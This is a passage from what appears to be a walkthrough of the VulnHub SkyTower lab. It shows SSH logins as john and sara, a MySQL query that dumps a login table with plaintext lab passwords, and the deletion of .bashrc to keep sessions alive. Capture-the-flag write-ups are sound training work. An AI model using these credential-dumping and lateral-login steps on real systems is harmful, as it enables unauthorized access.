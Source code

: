 ```bash
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
exit
```
{: .nolineno}
{: .nolineno}

## SSH Login ⤵️

Now Lets login again →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/SkyTower]
└─$ sudo ssh john@127.0.0.1 -p 2222            
john@127.0.0.1 is password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep 12 03:39:01 2023 from localhost
john@SkyTower:~$
```
{: .nolineno}
{: .nolineno}

and I need to dig deeper for root access :

I got something from mySQL server →

```bash
mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

mysql>
```
{: .nolineno}
{: .nolineno}

Now as I got the credentials I tried to login to sara same problem that we faces with john earlier so I have to delete the `.bashrc file` for no connection drop.

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/SkyTower]
└─$ ssh sara@127.0.0.1 -p 2222                                
The authenticity of host '[127.0.0.1]:2222 ([127.0.0.1]:2222)' cant be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:2222' (ECDSA) to the list of known hosts.
sara@127.0.0.1s password: 
Permission denied, please try again.
sara@127.0.0.1s password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
```